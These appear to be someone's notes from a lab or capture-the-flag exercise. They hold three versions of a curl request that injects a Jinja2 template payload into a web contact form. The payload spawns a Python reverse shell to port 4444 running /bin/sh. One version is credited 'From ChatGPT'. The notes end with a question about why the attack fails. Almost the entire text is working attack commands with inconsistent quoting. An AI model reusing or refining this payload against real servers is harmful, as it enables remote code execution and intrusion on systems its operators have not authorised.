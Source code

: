 
```go
┌──(kali㉿kali)-[~]
└─$ curl -X POST http://192.168.56.123/contact \
 -H "Content-Type: application/x-www-form-urlencoded" \
 -H "Referer: http://192.168.56.123/" \
 -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8" \
 -H "Accept-Encoding: gzip,deflate" \
 -H "Host: 192.168.56.123" \
 -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" \
 -H "Connection: Keep-alive" \
 --data-urlencode "Name={{request.application.__globals__.__builtins__.__import__('os').popen('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.56.123\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"])'').read()}}" \
--data "w3lPhone=123123123123&w3lSender=DerpGuy%40email.com&w3lSubject=mySub&w3lMessage=MyMessage""
```



From ChatGPT
```http
curl -X POST http://192.168.56.123/contact \
 -H "Content-Type: application/x-www-form-urlencoded" \
 -H "Referer: http://192.168.56.123/" \
 -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8" \
 -H "Accept-Encoding: gzip,deflate" \
 -H "Host: 192.168.56.123" \
 -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" \
 -H "Connection: Keep-alive" \
 --data-urlencode "Name={{request.application.__globals__.__builtins__.__import__('os').popen(\"python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.56.123',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i'])'\").read()}}" \
 --data "w3lPhone=123123123123&w3lSender=DerpGuy@email.com&w3lSubject=mySub&w3lMessage=MyMessage"
```


```go
curl -X POST http://192.168.56.123/contact \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -H "Referer: http://192.168.56.123/" \
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8" \
  -H "Accept-Encoding: gzip,deflate" \
  -H "Host: 192.168.56.123" \
  -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" \
  -H "Connection: Keep-alive" \
  --data-urlencode "Name={{request.application.__globals__.__builtins__.__import__('os').popen('python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.56.123\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"])\'').read()}}" \
  --data "w3lMessage=20&w3lPhone=555-666-060&w3lSender=DerpGuy%40email.com&w3lSubject=1"

```
DerpGuy@email? is the problem?
